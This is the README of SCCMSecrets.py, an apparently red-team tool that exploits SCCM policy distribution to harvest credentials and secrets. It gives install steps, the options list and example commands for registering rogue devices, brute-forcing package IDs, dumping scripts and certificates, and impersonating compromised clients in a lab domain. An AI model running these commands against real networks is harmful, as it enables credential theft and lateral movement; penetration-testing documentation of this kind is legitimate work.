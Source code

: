 # SCCMSecrets

SCCMSecrets.py is an SCCM policies exploitation tool. It goes beyond NAA credentials extraction, and aims to provide a comprehensive approach regarding SCCM policies exploitation. The tool can be executed from various levels of privileges, and will attempt to uncover potential misconfigurations related to policies distribution. It will dump the contents of all secret policies encountered as well as collection variables, in addition to package scripts hosted on the distribution points. Finally, it can be used throughout the intrusion process by configuring it to impersonate legitimate SCCM clients, in order to pivot across device collections.

For more details regarding the tool and its usage, see the associated article at:
https://www.synacktiv.com/publications/sccmsecretspy-exploiting-sccm-policies-distribution-for-credentials-harvesting-initial

# Installation

You can install SCCMSecrets.py by cloning the repository and installing the dependencies.
```
$ git clone https://github.com/synacktiv/SCCMSecrets
$ python3 -m pip install -r requirements.txt
```

# Usage

```
$ python3 SCCMSecrets.py --help
                                                                                                                                                                                                                   
 Usage: SCCMSecrets.py [OPTIONS]                                                                                                                                                                                   
                                                                                                                                                                                                                   
╭─ Options ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ *  --distribution-point         TEXT     The target distribution point [default: None] [required]                                                                                                               │
│    --client-name                TEXT     The name of the client that will be created in SCCM. An FQDN is expected (e.g. fake.corp.com) [default: None]                                                          │
│    --management-point           TEXT     The client's management point. Only necessary if the management point is not on the same machine as the distribution point. [default: None]                            │
│    --bruteforce-range           INTEGER  The number of package ID to bruteforce when performing anonymous policies scripts dump. Between 0 (00000) and 1048575 (FFFFF) [default: 4095]                          │
│    --extensions                 TEXT     Comma-separated list of extension that will determine which files will be downloaded when retrieving packages scripts [default: .ps1, .bat, .xml, .txt, .pfx]          │
│    --username                   TEXT     The username for a domain account (can be a user account, or - preferably - a machine acount) [default: None]                                                          │
│    --password                   TEXT     The password for a domain account (can be a user account, or - preferably - a machine account) [default: None]                                                         │
│    --registration-sleep         INTEGER  The amount of time, in seconds, that should be waited after registrating a new device. A few minutes is recommended so that the new device can be added to device      │
│                                          collections (3 minutes by default, may need to be increased)                                                                                                           │
│                                          [default: 180]                                                                                                                                                         │
│    --use-existing-device        TEXT     This option can be used to re-run SCCMSecrets.py using a previously registered device; or to impersonate a legitimate SCCM client. In both cases, it expects the path │
│                                          of a folder containing at least a guid.txt file (the SCCM device GUID) and the key.pem file (the client's private key).                                                         │
│                                          [default: None]                                                                                                                                                        │
│    --verbose                             Enable verbose output                                                                                                                                                  │
│    --help                                Show this message and exit.                                                                                                                                            │
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```

# Examples

Below are some example commands.

> Running SCCMSecrets.py without providing credentials (attempt to exploit automatic device approval for secret policies retrieval, attempt to exploit distribution point anonymous access for external resources dumping).
```
$ python3 SCCMSecrets.py --distribution-point 'mecm.sccm.lab/' --client-name test.sccm.lab
```

> Running SCCMSecrets.py with domain user credentials (attempt to exploit automatic device approval for secret policies retrieval, uses provided credentials or anonymous access for external resources dumping). Specify a shorter bruteforce range and specific file extensions to whitelist for external resources dumping.
```
$ python3 SCCMSecrets.py --distribution-point 'mecm.sccm.lab/' --client-name test2.sccm.lab --bruteforce-range 64 --extensions '.txt,.xml,.ps1,.pfx,.ini,.conf' --username 'franck' --password 'rockthee' --verbose
```

> Running SCCMSecrets.py with domain machine account credentials (register a new approved device allowing to dump secret policies, uses provided credentials or anonymous access for external resources dumping). Specify a longer time to wait after registration to ensure the enrolled device is successfully added to collections before requesting policies.
```
$ python3 SCCMSecrets.py --distribution-point 'mecm.sccm.lab/' --client-name test3.sccm.lab --verbose --registration-sleep 300 --username 'azule$' --password 'Password123!'
```

> Running SCCMSecrets.py to impersonate a legitimate SCCM client that was compromised. The `CLIENT_DEVICE` folder contains a guid.txt file (GUID of the compromised client) and a key.pem file (the private key of the compromised client).
```
$ python3 SCCMSecrets.py --distribution-point 'mecm.sccm.lab/' --client-name test4.sccm.lab --verbose --use-existing-device CLIENT_DEVICE/ 
```

